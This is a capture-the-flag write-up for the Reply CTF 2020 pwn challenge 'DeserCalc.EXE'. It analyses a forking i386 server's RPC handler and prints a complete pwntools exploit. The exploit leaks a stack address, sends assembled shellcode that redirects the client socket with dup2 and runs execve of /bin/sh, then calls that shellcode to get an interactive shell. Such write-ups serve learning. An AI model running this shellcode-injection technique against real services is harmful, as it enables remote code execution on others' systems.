 ```yaml
---
ctf_name: "reply ctf 2020"
title: "DeserCalc.EXE"
date:	2020-10-10
author: "nick0ve" 
category: "pwn"
---
```


## Program description
Two files are given, [client](https://github.com/fibonhack/fibonhack.github.io/blob/master/_posts/2020/reply2020/DeserCalc.EXE/server?raw=true) and [server](https://github.com/fibonhack/fibonhack.github.io/blob/master/_posts/2020/reply2020/DeserCalc.EXE/client?raw=true) , but only the server is worth analyzing.

It is a forking server, the function which handles the connection is located @ 0x08049882. 

It exchanges messages with the client by using a struct like that
```c
struct RPC {
    uint32 addr;
    char msg[100];
}
```

The handler function:
- check if the first msg received is `JustPwnThis!`
- reply with the string OK
- send an RPC object containing the address of do_calculation
- receive an RPC object and assert that received_RPC.addr == do_calculation
- then send another RPC object where send_RPC.addr == do_calculation - stack_buffer
    - So it is easy to calculate stack_buffer = do_calculation - send_RPC.addr
- receive 2 RPC ojects and execute the function @ RPC[1].addr

handler pseudocode:
```c
int handler(int client_fd)

{
  char buf [100];
  char *local_18;
  RPC *rpc_obj;
  
  log('I',"PID %d: %s\n",_Var1,"Incoming connection...", getpid());
  if check_password(client_fd,"JustPwnThis!") == 0) {
    send_nullterminated(client_fd,"WRONG\n");
    return -1;
  }
  else {
    send_nullterminated(client_fd,"OK\n");
    send_RPC_docalc(client_fd);
    rpc_obj = alloc_RPC_structs(2);
    
    if (check_RPC_addr_and_leak_param3(client_fd,rpc_obj + 1,buf) == 0) {
      log('W',"PID %d: %s\n",_Var1,"exiting. reason: wrong RPC address...", getpid());
      return -1;
    }
    else {
      recv_2_RPC_structs(client_fd,rpc_obj);
      local_18 = (char *)(*(code *)rpc_obj[1].RPC_addr)(buf);
      send_RPC_docalc_msg(client_fd,local_18);
      log('I',"PID %d: %s\n",_Var1,"exiting normally...", getpid());
      return 0;
    }
  }
}
```

## Exploit
checksec server output:
```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
```
NX is disabled so it is possible to just jump at the stack buffer leaked by the server

```python
from pwn import *
from binascii import hexlify

# Set up pwntools for the correct architecture
context.update(arch='i386')
exe = ELF('./server')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.REMOTE:
        return remote('gamebox1.reply.it', 27364)
    else:
        return remote('127.0.0.1', 8000)

def RPC(addr, msg):
    while len(msg) != 100:
        msg += b'\x41'
    return p32(addr) + msg


shellcode = '''
    mov ebx, 0x08049300 # close

# close(0)
    push 0
    call ebx

# close(1)
    push 1
    call ebx

    mov ebx, 0x08049050 # dup2

# dup2(4,0)
    push 0
    push 4 
    call ebx

# dup2(4,1)
    push 1
    push 4 
    call ebx

# execve binbash
    xor    eax, eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx, esp
    mov    ecx, eax
    mov    edx, eax
    mov    al, 0xb
    int    0x80
'''

io = start()

password = b'JustPwnThis!'
io.recvuntil(b'Password:')
io.sendline(password)
io.recvuntil(b'OK\n')

io.recv()

DO_CALCULATION = 0x0804a8c8

scode = asm(shellcode, arch = 'i386')

# this scode is gonna be stored in buf of handler function
payload = RPC(DO_CALCULATION, scode)
io.send(payload)
RPC1 = io.recv()
bufleak = (DO_CALCULATION - u32(RPC1[:4])) & 0xffffffff
print ("buf @ %08x" % (bufleak))

'''
Sending 
- garbage RPC
- RPC (function_to_execute=scode_location, garbage)
'''
io.send(RPC(0,b'')+RPC(bufleak,b''))

# get a shell
io.interactive()
```

The shellcode closes stdin,stdout, redirect stdin and stdout to the client_fd with dup2(client_fd,1) dup2(client_fd,0), then it does the classic execve(binbash)
